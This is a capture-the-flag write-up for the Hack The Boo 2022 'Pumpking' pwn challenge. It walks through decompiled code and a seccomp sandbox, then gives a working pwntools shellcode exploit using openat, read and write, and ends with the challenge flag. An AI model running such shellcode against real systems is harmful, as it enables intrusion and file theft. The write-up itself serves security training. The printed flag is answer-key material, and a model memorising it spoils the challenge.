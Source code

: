 # Hack The Boo 2022

## Pumpking

> Long live the King! Pumpking is the king of our hometown and this time of the year, he makes wishes come true! But, you must be naughty in order to get a wish.. He is like reverse Santa Claus and way cooler!
>
>  Author: N/A
>
> [`pwn_pumpking.zip`](pwn_pumpking.zip)

Tags: _pwn_

## Preparation

Inspecting the executable in Ghidra reveals the logic in main. The first thing to note is a "secret" passphrase the program verifies. After entering ```pumpk1ngRulez``` a function ```king``` is called.

```c++
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  local_1f = 0;
  local_17 = 0;
  local_13 = 0;
  local_11 = 0;
  write(1,
        "\nFirst of all, in order to proceed, we need you to whisper the secret passphrase provided  only to naughty kids: "
        ,0x70);
  read(0,&local_1f,0xe);
  local_28 = 0;
  while( true ) {
    sVar2 = strlen((char *)&local_1f);
    if (sVar2 <= local_28) break;
    if (*(char *)((long)&local_1f + local_28) == '\n') {
      *(undefined *)((long)&local_1f + local_28) = 0;
    }
    local_28 = local_28 + 1;
  }
  iVar1 = strncmp((char *)&local_1f,"pumpk1ngRulez",0xd);
  if (iVar1 == 0) {
    king();
  }
  else {
    write(1,"\nYou seem too kind for the Pumpking to help you.. I\'m sorry!\n\n",0x3e);
  }
```

This looks fine. Some input is taken and written onto the stack. Afterwards the same location is called as function. With this lot of space it's easy to put some shellcode onto the stack and ```king``` happily executes it.

```c++
  write(1,
        "\n[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true!  Wish for everything, even for tha flag!\n\n>> "
        ,0x88);
  local_a8 = 0;
  local_a0 = 0;
  local_98 = 0;
  local_90 = 0;
  local_88 = 0;
  local_80 = 0;
  local_78 = 0;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_14 = 0;
  read(0,&local_a8,0x95);
  (*(code *)&local_a8)();
```

## Solution

The first idea is to look for some small shellcode to run /bin/sh and give a shell. There are lots of resources that offer pre-crafted shellcode like this. Putting this into action sadly lets the program crash. So for further inspection GDB can be attached and it can be verified that the shellcode is indeed executed

```
►  0x7fffc0f43580    xor    eax, eax
   0x7fffc0f43582    movabs rbx, 0xff978cd091969dd1
   0x7fffc0f4358c    neg    rbx
   0x7fffc0f4358f    push   rbx
   0x7fffc0f43590    push   rsp
   0x7fffc0f43591    pop    rdi
   0x7fffc0f43592    cdq    
   0x7fffc0f43593    push   rdx
   0x7fffc0f43594    push   rdi
   0x7fffc0f43595    push   rsp
   0x7fffc0f43596    pop    rsi
   ...
```

But the program still crashes with ```Program terminated with signal SIGSYS, Bad system call.```. Why is that? The reason lies in *SECCOMP* that prevents the shellcode to invoke syscalls. This means, going back to Ghidra, doing more investigation. And indeed there is some interesting code inside the function ```setup```.

```c++
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  alarm(0x7f);
  uVar2 = seccomp_init(0);
  seccomp_rule_add(uVar2,0x7fff0000,0x101,0);
  seccomp_rule_add(uVar2,0x7fff0000,0,0);
  seccomp_rule_add(uVar2,0x7fff0000,0x3c,0);
  seccomp_rule_add(uVar2,0x7fff0000,1,0);
  seccomp_rule_add(uVar2,0x7fff0000,0xf,0);
  seccomp_load(uVar2);
```

There are in fact some syscalls allowed. Looking up the syscall ids leads to three interesting calls: ```openat```, ```read``` and ```write```. Those calls can be used to craft our shellcode and as the location of *flag.txt* is known it is easy to create.

```python
payload = shellcraft.openat(-100, "flag.txt") # handler value -100 opens file relative to executable
payload += shellcraft.read('rax', 'rsp', 50)
payload += shellcraft.write(1, 'rsp', 50)
payload += shellcraft.exit(0)
p.sendlineafter(b">> ", asm(payload))
p.interactive()
```

Calling this reveals the flag ```HTB{n4ughty_b01z_d0_n0t_f0ll0w_s3cc0mp_rul3z}```
